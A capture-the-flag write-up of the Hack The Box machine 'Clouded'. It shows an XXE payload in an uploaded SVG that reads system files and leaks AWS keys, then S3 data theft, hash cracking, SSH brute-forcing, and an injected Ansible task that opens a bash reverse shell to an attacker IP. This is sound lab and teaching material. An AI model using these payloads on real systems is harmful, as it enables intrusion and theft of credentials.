

#### User

As per the last machine, only ports `80` and `22` are open. Assigning `clouded.htb` we get a webserver with a file upload capability.


With a whitelist for only `pdf`, `docx`, `png` and `svg`, `svg` is of most interest due to the multitude of potential exploits such as XSS, XXE, SSRF, Open Redirect, etc.

Trying a few payloads, XXE ends up being the way to go, getting a read on `/etc/passwd` using the `file://` URI.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <text x="20" y="35">My &xxe;</text>
</svg>
```



The file on `local.clouded.htb`:
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="100%" height="100%" viewBox="0 0 100 100">
  <text x="20" y="35">My root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
libstoragemgmt:x:999:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
ec2-instance-connect:x:998:996::/home/ec2-instance-connect:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
rngd:x:996:994:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin
slicer:x:995:992::/tmp:/sbin/nologin
sb_logger:x:994:991::/tmp:/sbin/nologin
sbx_user1051:x:993:990::/home/sbx_user1051:/sbin/nologin
...
sbx_user1176:x:868:865::/home/sbx_user1176:/sbin/nologin
</text>
</svg>   
```

I then get a read of `/proc/self/environ`
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="100%" height="100%" viewBox="0 0 100 100">
  <text x="20" y="35">My AWS_LAMBDA_FUNCTION_VERSION=$LATESTEDGE_PORT=4566HOSTNAME=60be4322cf6b_LAMBDA_CONTROL_SOCKET=14AWS_LAMBDA_FUNCTION_TIMEOUT=10LOCALSTACK_HOSTNAME=172.18.0.2AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/UploadToS3LAMBDA_TASK_ROOT=/var/taskLD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/libAWS_LAMBDA_RUNTIME_API=127.0.0.1:9001AWS_LAMBDA_LOG_STREAM_NAME=2024/12/17/[$LATEST]808b2c6d5578422764722a1abab44cc9_LAMBDA_SHARED_MEM_FD=11AWS_EXECUTION_ENV=AWS_Lambda_python3.8_LAMBDA_RUNTIME_LOAD_TIME=1530232235231AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000AWS_LAMBDA_FUNCTION_NAME=UploadToS3PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin_LAMBDA_LOG_FD=9AWS_DEFAULT_REGION=us-east-1PWD=/var/taskAWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUYLAMBDA_RUNTIME_DIR=/var/runtimeLANG=en_US.UTF-8TZ=:UTCAWS_REGION=us-east-1AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFBSHLVL=0HOME=/home/sbx_user1051AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:UploadToS3_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2_AWS_XRAY_DAEMON_PORT=2000_X_AMZN_TRACE_ID=Root=1-dc99d00f-c079a84d433534434534ef0d;Parent=91ed514f1e5c03b2;Sampled=1_LAMBDA_SB_ID=7AWS_XRAY_CONTEXT_MISSING=LOG_ERROR_LAMBDA_CONSOLE_SOCKET=16AWS_LAMBDA_COGNITO_IDENTITY={}_HANDLER=handler.lambda_handlerDOCKER_LAMBDA_USE_STDIN=1AWS_LAMBDA_FUNCTION_MEMORY_SIZE=1536</text>
</svg>  
```

Parsing this, and re-looking at the URL we are uploading to, this is an AWS system and we are uploading to a `lambda`. To use these credentials we can use the AWS CLI.

We have all the information we need:
- `AWS_REGION=us-east-1`
- `AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFB`
- `AWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY`


We setup the config:
```bash
$ aws configure                                                                              
AWS Access Key ID [****************RFFB]: AKIA5M34BDN8GCJGRFFB
AWS Secret Access Key [****************LGUY]: eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY
Default region name [us-east-1]: 
Default output format [None]: 
```

We can then use these creds to get information about the Lambda function in the environment variables: `UploadToS3`
```bash
$ aws --endpoint-url=http://local.clouded.htb/ lambda get-function --function-name UploadToS3
{
    "Configuration": {
        "FunctionName": "UploadToS3",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:UploadToS3",
        "Runtime": "python3.8",
        "Role": "arn:aws:iam::000000000000:role/LambdaS3Access",
        "Handler": "handler.lambda_handler",
        "CodeSize": 21510285,
        "Description": "",
        "Timeout": 10,
        "LastModified": "2024-12-14T20:33:21.687+0000",
        "CodeSha256": "CxUb8kp80KqTa/tzdVQeTVFqo0Nhs0W2AwRKeuplCXE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "Environment": {
            "Variables": {
                "AWS_ACCESS_KEY_ID": "AKIA5M34BDN8GCJGRFFB",
                "AWS_SECRET_ACCESS_KEY": "eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY"
            }
        },
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "8f09113f-e6a4-4d8a-a981-a470088ed0da",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    },
    "Code": {
        "Location": "http://localhost:4566/2015-03-31/functions/UploadToS3/code"
    },
    "Tags": {}
}
```

Sadly that port isn't open so we won't be able to access it (The XXE for that doesn't work either, I think due to chars greater than `0x7f` but I still couldn't get it with OOB, whatever...).

I look into the S3 instead:
```bash
$ aws --endpoint-url=http://local.clouded.htb/ s3api list-buckets
{
    "Buckets": [
        {
            "Name": "uploads",
            "CreationDate": "2024-12-14T20:33:11+00:00"
        },
        {
            "Name": "clouded-internal",
            "CreationDate": "2024-12-14T20:33:14+00:00"
        }
    ],
    "Owner": {
        "DisplayName": "webfile",
        "ID": "bcaf1ffd86f41161ca5fb16fd081034f"
    }
}
$ aws --endpoint-url=http://local.clouded.htb/ s3 ls clouded-internal
2024-12-15 07:33:17      16384 backup.db
$ aws --endpoint-url=http://local.clouded.htb/ s3api get-object --bucket clouded-internal --key backup.db backup.db
{
    "AcceptRanges": "bytes",
    "LastModified": "2024-12-14T20:33:17+00:00",
    "ContentLength": 16384,
    "ETag": "\"6f2520b0477e944aa41e759a0eed2157\"",
    "ContentLanguage": "en-US",
    "ContentType": "binary/octet-stream",
    "Metadata": {}
}
```

We get a `backup.db` file!

Inside is the following schema:
```sql
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE IF NOT EXISTS "frontiers" (
        "first_name"    TEXT,
        "last_name"     TEXT,
        "department"    TEXT,
        "frontier_level"        TEXT,
        "password"      TEXT
);
sqlite> select * from frontiers
   ...> ;
Jax|Blackstone|Cybersecurity Frontier|Star Tech Cadet|0691df26da82d6eb2e5da8924628db63
Colt|Dray|Orbital Analytics|Keeper of the Spur|ae0eea6eb6d63f98da42de867c47a0f8
Ember|Frost|Quantum Systems|Starwarden|680e89809965ec41e64dc7e447f175ab
Kael|Stark|Astroinformatics|Frontier Architect|f63f4fbc9f8c85d409f2f59f2b9e12d5
Nova|Voss|Terraforming Tech|Star Tech Cadet|dba0079f1cb3a3b56e102dd5e04fa2af
Vira|Wyler|Galactic Communications|Signal Engineer|968c58d88d981b4ee15e2c8cb1fab06d
Zane|Korr|Power Grid Dynamics|Code Marshal|a90f4589534f75e93dbccd20329ed946
Lyra|Nex|Starship AI Division|Keeper of the Spur|91111fb1f8b088438d80367df81cb6cf
Arlo|Halcyon|Neural Nexus|Systems Pioneer|02b0732024cad6ad3dc2989bc82a1ef5
Orion|Solace|Signal Operations|Starwarden|d2feb9b6718bb374dfdd689380676954
Vesper|Talon|Galactic Communications|Frontier Architect|467b6140fe3bb958f2332983914de787
Pax|Irons|Quantum Systems|Data Scout|2aee1c40199c7754da766e61452612cc
Cleo|Nagato|Astroinformatics|Code Marshal|e94ef563867e9c9df3fcc999bdb045f5
Rynn|Verin|Void Engineering|Star Tech Cadet|532ab4d2bbcc461398d494905db10c95
Kyra|Ashcroft|Terraforming Tech|Comms Wrangler|7d37c580f9c36fa004af865448a6e278
Soren|Stroud|System Integrity Core|Keeper of the Spur|b08c8c585b6d67164c163767076445d6
Thorne|Ashford|Starship AI Division|Signal Engineer|069a6a9ccaaca7967a0c43cb5e161187
Aerin|Vail|Cybersecurity Frontier|Star Tech Cadet|83de6260ed1dbe549bd23d31c4b8af81
Juno|Quill|Data Forge|Cyber Outrider|361519f98f2c121f3abd457adc415ad9
Kaden|Kade|Neural Nexus|Systems Pioneer|365816905f5e9c148e20273719fe163d
Elara|Drax|Quantum Systems|Cyber Outrider|78842815248300fa6ae79f7776a5080a
Dax|Mason|Galactic Communications|Code Marshal|6ebe76c9fb411be97b3b0d48b791a7c9
Tessa|Hawk|Signal Operations|Starwarden|df53ca268240ca76670c8566ee54568a
Kiera|Carver|Astroinformatics|Data Scout|008c5926ca861023c1d2a36653fd88e2
Valen|Locke|Power Grid Dynamics|Systems Pioneer|8621ffdbc5698829397d97767ac13db3
Juno|Wolfe|Frontier Robotics|Signal Engineer|282bbbfb69da08d03ff4bcf34a94bc53
Calix|Rook|Orbital Analytics|Comms Wrangler|2dccd1ab3e03990aea77359831c85ca2
Rhea|Steele|Starship AI Division|Keeper of the Spur|cf9ee5bcb36b4936dd7064ee9b2f139e
Lira|Kyros|Void Engineering|Code Marshal|6b1628b016dff46e6fa35684be6acc96
Cass|Hunt|Data Forge|Star Tech Cadet|de1e3b0952476aae6888f98ea0e4ac11
Rowan|Calder|Cybersecurity Frontier|Starwarden|e1964798cfe86e914af895f8d0291812
Astra|Brogan|Neural Nexus|Comms Wrangler|cb07901c53218323c4ceacdea4b23c98
Bex|Stryker|Galactic Communications|Frontier Architect|b03e3fd2b3d22ff6df2796c412b09311
Nyx|Vale|Astroinformatics|Data Scout|92290ccb8f7b2beb4c57ef1f7a3d5947
Talon|Fennec|Terraforming Tech|Cyber Outrider|7d8bc5f1a8d3787d06ef11c97d4655df
Mira|Drake|Quantum Systems|Star Tech Cadet|d487dd0b55dfcacdd920ccbdaeafa351
Kaine|Sabre|System Integrity Core|Starwarden|07a88e756847244f3496f63f473d6085
Juno|Cross|Power Grid Dynamics|Keeper of the Spur|2760c7b84d4bad6b0b12d7c1a6c5e1a4
Halcyon|Ward|Signal Operations|Frontier Architect|4d5257e5acc7fcac2f5dcd66c4e78f9a
Nia|Vireo|Starship AI Division|Signal Engineer|ac3665f6acae8bd267ed92a71a71313b
Zira|Vance|Orbital Analytics|Star Tech Cadet|eb415b465d61eada8661cb4bda71a4e7
Max|Wren|Data Forge|Comms Wrangler|a17b48e31806e6bb63f64cafb2b06780
Caden|Fury|Void Engineering|Data Scout|7eef7295c50d70615433858746056bca
Lira|Slate|Cybersecurity Frontier|Keeper of the Spur|cd880b726e0a0dbd4237f10d15da46f4
Selene|Vesper|System Integrity Core|Code Marshal|33da7a40473c1637f1a2e142f4925194
Jett|Briar|Terraforming Tech|Cyber Outrider|177dacb14b34103960ec27ba29bd686b
Renzo|Shadow|Frontier Robotics|Star Tech Cadet|7902b7c0be5cedb6fbada8d4c7fc42a0
Sol|Ravenwood|Galactic Communications|Systems Pioneer|55e7dd3016ce4ac57b9a0f56af12f7c2
Lex|West|Signal Operations|Starwarden|21bb5bb51758eab175d4d640334abba0
Thorne|Lyon|Neural Nexus|Frontier Architect|c25a68128b55eab863ac1bfcfbb4c80a
sqlite> 
```

I extract the hashes and crack them, I then use a script to brute-force the SSH with `firstname:password` pairs... This fails.

I try a few other things but what ends up clicking is `lastname:password` and we get these creds: `nagato:alicia`

```
nagato@clouded:~$ cat user.txt
HTB{L@MBD@_5AY5_B@@}
```

User Flag: `HTB{L@MBD@_5AY5_B@@}`

#### Root

I try looking at `sudo -l` but: `Sorry, user nagato may not run sudo on localhost.`

I pull down the lambda source code but find nothing of value.

I try lots of other things but eventually spot some weird files in `/opt/infra-setup/checkup.yml`
```yml
- name: Check Stability of Clouded File Sharing Service
  hosts: localhost
  gather_facts: false

  tasks:
    - name: Check if the Clouded File Sharing service is running and if the AWS connection is stable
      debug:
        msg: "Checking if Clouded File Sharing service is running."
    # NOTE to Yuki - Add checks for verifying the above tasks
```

The tasks are not verified, could we put our own malicious one? Let's check with [`pspy`](https://github.com/DominicBreuker/pspy)

```
...
2024/12/17 01:03:49 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2024/12/17 01:04:01 CMD: UID=0     PID=3908   | /usr/sbin/CRON -f 
2024/12/17 01:04:01 CMD: UID=0     PID=3907   | /usr/sbin/CRON -f 
2024/12/17 01:04:01 CMD: UID=0     PID=3909   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/infra-setup/* && /usr/bin/cp /root/checkup.yml /opt/infra-setup/ 
2024/12/17 01:04:01 CMD: UID=0     PID=3910   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/infra-setup/* && /usr/bin/cp /root/checkup.yml /opt/infra-setup/ 
2024/12/17 01:04:01 CMD: UID=0     PID=3911   | /usr/sbin/CRON -f 
2024/12/17 01:04:01 CMD: UID=0     PID=3912   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/infra-setup/*.yml 
2024/12/17 01:04:01 CMD: UID=0     PID=3913   | python3 /usr/bin/ansible-playbook /opt/infra-setup/checkup.yml 
2024/12/17 01:04:02 CMD: UID=0     PID=3916   | 
2024/12/17 01:04:02 CMD: UID=0     PID=3917   | 
2024/12/17 01:04:02 CMD: UID=0     PID=3919   | python3 /usr/bin/ansible-playbook /opt/infra-setup/checkup.yml 
```

Seems `ansible-playbook` is using it on the `root` user. I use an [Ansible Playbook Revshell](https://gist.github.com/Reelix/32ccf1baaa3066654a460265fca53960) to get the `root` flag by editing the `checkup.yml`.

I setup my listener: `nc -lvnp 4444`


Create my payload:
```yml
- name: Check Stability of Clouded File Sharing Service
  hosts: localhost
  gather_facts: false

  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/10.10.14.69/4444 0>&1'
    - name: Check if the Clouded File Sharing service is running and if the AWS connection is stable
      debug:
        msg: "Checking if Clouded File Sharing service is running."
    # NOTE to Yuki - Add checks for verifying the above tasks
```

Overwrite the original:
```bash
$ chmod 0644 checkup.yml
$ mv checkup.yml /opt/infra-setup/checkup.yml
```

And eventually:
```bash
connect to [10.10.14.69] from (UNKNOWN) [10.129.249.56] 49194
bash: cannot set terminal process group (3977): Inappropriate ioctl for device
bash: no job control in this shell
root@clouded:/opt/infra-setup# cat /root/root.txt
cat /root/root.txt
HTB{H@ZY_71ME5_AH3AD}
```

Root Flag: `HTB{H@ZY_71ME5_AH3AD}`